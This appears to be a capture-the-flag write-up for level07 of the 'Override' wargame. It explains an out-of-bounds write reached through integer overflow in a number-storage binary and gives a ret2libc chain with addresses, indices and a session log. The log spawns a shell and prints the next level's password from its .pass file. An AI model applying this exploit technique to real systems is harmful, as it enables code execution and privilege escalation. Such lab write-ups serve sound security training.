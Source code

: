 # Override - level07

We've started executing the binary to see what was asking.

It asked for one of the three following commands: store, read or quit.

Disassembling level07 with gdb we noticed two interesting functions
store_number called with the store command and read_number called with
read.

The `store_number` function asks for a `number` and `index` from `stdin` (4 bytes each).
If (index % 3 == 0 || (number >> 0x18) == 0xb7), the function prints an error and returns
otherwise, iit stores `number` @ (`data` + (`index` * 4)) and returns.

There's no check on `index` input, hence we can write to memory even outside `data` boundaries.

The `read_number` function does the following asks for an `index` from `stdin`.
It returns 4-bytes dumped @ (`data` + (`index` * 4)).

There's no check on `index` input, hence we can read from memory even outside `data` boundaries.

We are gonna use an integer overflow to overwrite EIP to launch the shell when we quit our program.

We found the addresses of system, exit using info funcion.

```
system		= 0xf7e6aed0 = 4159090384 (decimal)
exit		= 0xf7e5eb70 = 4159040368 (decimal)
```

and /bin/sh using 

```
find &system,+9999999,"/bin/sh"
0xf7f897ec

"/bin/sh"	= 0xf7f897ec = 4160264172 (decimal)
```

The EIP address can be found with the info frame command setting a breakpoint before
read_number in main and the data[0] address can be found printing $esp + 0x24 using
x command in gdb.

```
eip		= 0xffffd70c = 4294956812
array	= 0xffffd544 = 4294956356
```

Now we can substract EIP and the data[0] address to get the index that
we can use to write the system address on EIP.

```
4294956812 - 4294956356 = 456 / 4 = 114 (divide by 4 because it is int sized)
```

But since index 114 is protected we need to make an integer overflow to access it.

We add MAX_INT / 4 to 144 to create integer overflow.

We proceed to store addresses of

```
system   4159090384 to index 1073741938 (114 + (2^32 / 4)) EIP,
exit     4159040368 to index 115 EIP+1,
/bin/sh  4160264172 to index 116 EIP+2,
```

we quit and level08 shell opens.

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat ~level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```